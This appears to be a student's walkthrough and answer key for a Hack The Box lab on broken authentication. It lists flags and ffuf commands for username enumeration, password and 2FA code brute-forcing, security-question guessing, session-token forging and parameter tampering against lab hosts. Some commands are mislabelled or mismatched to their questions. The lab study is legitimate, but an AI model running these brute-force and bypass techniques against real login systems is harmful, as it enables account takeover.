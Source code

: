 # Enumerating Users

1. Enumerate a valid user on the web application. Provide the username as the answer.

Answer: cookster

Explanation: Look at web application response. There is a text "Unknown user.". It seems that it can be used in to narrow the accessible username. 

Hydra command: ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.54.69:49960/index.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=asa" -fr "Unknown user."

# Brute-Forcing Passwords

1. What is one prominent issue with passwords?

Answer: password reuse

Explanation: in password reuse, if there is a password compromised, then it can be used on another web application. 

2. What is the password of the user 'admin'?

Answer: Ramirez120992

Explanation: Usage ffuf command here: ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.54.69:49960/index.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=asa" -fr "Unknown user."

# Brute-Forcing Password Reset Tokens

1. On what do password recovery functionalities provided by web applications typically rely to allow users to recover their accounts?

Answer: one-time reset token

Explanation: There could be provided a tojen in url, that is the epath to reset the password. The attaker can bruteforce the token. 

2. Which flag of seq pads numbers by prepending zeros to make them the same length?

Answer: -w

Explanation: By using tool command man seq.  
    -w, --equal-width
              equalize width by padding with leading zeroes


3. How many possible values are there for a 6-digit OTP?

Answer: 1,000,000

Explanation: Combinatorics. There are 6 numbers in a token. Each  number can be in range [0,9], Range contains 10 integers. So, the answer is 10^6

4. Takeover another user's account on the target system to obtain the flag.

Answer: HTB{36da098385e641d54e1b2750721d816e}

Notes: The response useful sentense: The provided token is invalid

# Brute-Forcing 2FA Codes
 
 1.  Brute-force the admin user's 2FA code on the target system to obtain the flag.

 Answer: HTB{9837b33a1ef678c380addf7ef8a517de}

 Notes: To login, there is 2FA method. The OTP have to be provided with first Knowledge-based auth creds admin:admin. 

Note for response: Invalid 2FA Code.

Explanation: ffuf -w ./tokens.txt -u http://94.237.54.42:30510/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=6789gitdhaoph1oe4hqnumhd4b" -d "otp=FUZZ" -fr "Invalid 2FA Code."


# Vulnerable Password Reset

1. Which city is the admin user from? 

Answer: Manchester

Explanation:

Command: ffuf -w ./city_wordlist.txt -u http://94.237.54.116:41958/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=2ngns9ithqsgsuf5ueojhql77k" -d "security_response=FUZZ" -fr "Incorrect response."

2.  Reset the admin user's password on the target system to obtain the flag.

Answer: HTB{d4740b1801d9880ff70de227a54309f0}

Explanation: Obtain the flag by loggin in to the website. 

# Authentication Bypass via Direct Access

1. Apply what you learned in this section to bypass authentication to obtain the flag.

Answer: HTB{913ab2d84b8db21854c696dee1f1db68}

# Authentication Bypass via Parameter Modification

1. Apply what you learned in this section to bypass authentication to obtain the flag.

Answer: HTB{63593317426484ea6d270c2159335780}

Explanation: 
1. seq 0 999  > id.txt
2. ffuf -w ./id.txt -u http://83.136.250.52:35689/admin.php?user_id=FUZZ -X GET -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -fr "Could not load admin data. Please check your privileges."

# Attacking Session Tokens

1.  A session token can be brute-forced if it lacks sufficient what?

https://owasp.org/www-community/vulnerabilities/Insufficient_Entropy

2. Obtain administrative access on the target to obtain the flag.

Answer: HTB{d1f5d760d130f7dd11de93f0b393abda}

Explanation: echo -n 'user=htb-stdnt;role=admin' | xxd -p

757365723d6874622d7374646e743b726f6c653d61646d696e

# Skill Assessment

Register:

Password does not meet our password policy:

    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long

ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.250.52:38028/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=Anneboleyn12" -fr "Unknown username or password."  -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -o userenum.txt -of json 

Output: gladys

grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{12}' > custom_wordlist.txt

ffuf -w ./custom_wordlist.txt -u http://83.136.250.52:38028/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials."  -b "PHPSESSID=2sfdfkjp2veo3cdn8ffu6ruhrg" -o passswords.txt  -of json

Output: dWinaldasD13

For otp exploitation need to catch the response of redirection and change Location Header to /profile.php